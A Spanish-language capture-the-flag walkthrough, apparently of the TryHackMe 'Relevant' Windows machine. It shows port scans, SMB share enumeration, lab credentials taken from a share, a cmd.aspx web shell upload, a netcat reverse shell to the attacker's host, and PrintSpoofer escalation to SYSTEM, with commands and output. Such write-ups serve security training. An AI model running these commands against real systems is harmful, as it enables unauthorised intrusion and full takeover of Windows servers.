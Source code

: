 ```yaml
---
layout: post
title:  "Relevant | TryHackMe 👨‍🔬"
date:   2021-05-14 7:21:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, windows, Tryhackme, Walkthrough, SeImpersonatePrivilege]
---
```


{: .message}

Es una maquina windows interesante en la parte inicial y en la escalada que puede presentar un reto.
## Enumeracion
*Puertos:*
```plaintext
80/tcp   --> Microsoft IIS httpd 10.0
135/tcp  --> Microsoft Windows RPC
139/tcp  --> Microsoft Windows netbios-ssn
445/tcp  --> Windows Server 2016 Standard Evaluation 14393 
3389/tcp --> Microsoft Terminal Services
```
### Nmap
*Para escanear todos los puertos rapido:*
```bash
nmap -p- -sT --min-rate 5000  10.10.89.170 -oG Scanport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 20:26 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 6.97% done; ETC: 20:27 (0:00:40 remaining)
Nmap scan report for 10.10.89.170
Host is up (0.15s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 40.94 seconds
```

*Escaneo mas exhaustivo:*

```bash
# Nmap 7.91 scan initiated Thu May 13 20:35:05 2021 as: nmap -sC -sV -p80,135,139,445,3389 -oN Scanport2 10.10.89.170
Nmap scan report for 10.10.89.170
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-05-13T23:35:20+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-05-12T23:22:38
|_Not valid after:  2021-11-11T23:22:38
|_ssl-date: 2021-05-13T23:36:01+00:00; -59m59s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 24m00s, deviation: 3h07m50s, median: -59m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-13T16:35:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-13T23:35:21
|_  start_date: 2021-05-13T23:23:14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 13 20:36:01 2021 -- 1 IP address (1 host up) scanned in 56.40 seconds
```

### Masscan

*Aqui hago uso de otra utilidad para confirmar lo que tengo y descartar falsos positivos:*

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.173.246
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-05-14 21:58:30 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 445/tcp on 10.10.173.246                                  
Discovered open port 3389/tcp on 10.10.173.246                                 
Discovered open port 49667/tcp on 10.10.173.246
Discovered open port 49663/tcp on 10.10.173.246
```

### SMB enumeration

Carpeta compatida de interes: *nt4wrksv*

```json
smbmap -H 10.10.89.170 -u benji -p benji                                                 3s
[+] Guest session       IP: 10.10.89.170:445    Name: Relevant                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        nt4wrksv                                                READ, WRITE
```

### Credentials

Estas fueron obtenidas de la carpeta compartida nt4wrksv

```plaintext
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

## SMB upload cmd.aspx

La idea es que si te metes por la web: http://ip:49663/nt4wrksv/passwords.txt puedes visualizar los archivos que se encuentra en el smb. Entonces teniendo esto claro la idea es subir una cmd.aspx. (Primero probe con la cmd.asp pero esta no me dio resultado y luego pase a la cmd.aspx)

Vemos como se nos muestra una cmd:
http://ip:49663/nt4wrksv/cmd.aspx 

## Shell inicial

Corremos un servidor de smb y luego tiramos de un archivo compartido que es nc.exe y nos lazamos una reverse:

```bash
\\10.9.206.201\share\nc.exe 10.9.206.201 4444 -e cmd.exe
```

```bash
listening on [any] 4444 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.173.246] 49887
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```


## PrivEsc

El primer comando siempre debe ser ```whoami /priv``` para saber los permisos que posee ese usuario:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Aqui resalta el famoso SeImpersonatePrivilege, para la explotacion de dicho privilegio se hace tirando de este [binario](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

Ejecutamos el binario desde el directorio de bob:

```bash
\\10.9.206.201\share\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

MACHINE PWNED!!!!!